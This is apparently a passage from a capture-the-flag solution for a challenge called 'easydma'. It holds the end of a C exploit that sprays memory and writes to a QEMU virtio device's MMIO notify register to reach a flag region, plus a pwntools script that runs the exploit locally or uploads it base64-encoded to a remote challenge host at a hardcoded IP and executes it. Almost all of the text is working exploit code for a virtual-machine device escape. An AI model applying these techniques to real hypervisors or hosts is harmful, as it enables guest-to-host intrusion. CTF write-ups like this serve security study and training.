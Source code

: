 ```c
    uint16_t notify_off = mmio_read16(&common_cfg->queue_notify_off);
    uint32_t notify_offset = notify_cap->cap.offset + notify_off*notify_cap->notify_off_multiplier;

    for (size_t i = 0; i < 0x100; i+=4)
        spray();

    mmio_write16((uint16_t *)(virtio_notify_mmio + notify_offset), 0);
    hexdump((uint8_t *)virtio_mmio, 0x100);

    munmap((void *)dma_mem, 0x3000);
    munmap((void *)virtio_mmio, 0x4000);
    munmap((void *)readflag_mmio, 0x1000);

    return 0;
}
```

## easydma.qemu.py

```python
from pwn import *
import base64
import os

aslr = True
context.log_level = "info"
#context.terminal = ["deepin-terminal","-m","splitscreen","-e","bash","-c"]
context.terminal = ['tmux','splitw','-h']
context.arch = "amd64"
context.os = "linux"

#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

p = None
ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def send_file(src, dst):
    pl = base64.b64encode(open(src, "rb").read())
    sla(b"#", b"cat<<EOF|base64 -d>"+dst)
    for i in range(0, len(pl), 0x100):
        sla(b">", pl[i:i+0x100])
    sla(b">", b"EOF")

def conn(local=1):
    global p
    if local == 1:
        os.system("cd rootfs && find . | cpio -o --format=newc > ../rootfs.cpio && cd --")
        pc = './run.sh'
        #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
        p = process(pc,aslr=aslr)
        sla(b"~ #", b"chmod +x /exp; /exp")
    else:
        remote_addr = ['1.95.46.90', 9999]
        p = remote(remote_addr[0], remote_addr[1])
        send_file("./exp", b"/exp")
        sla(b"~ #", b"chmod +x /exp; /exp")

```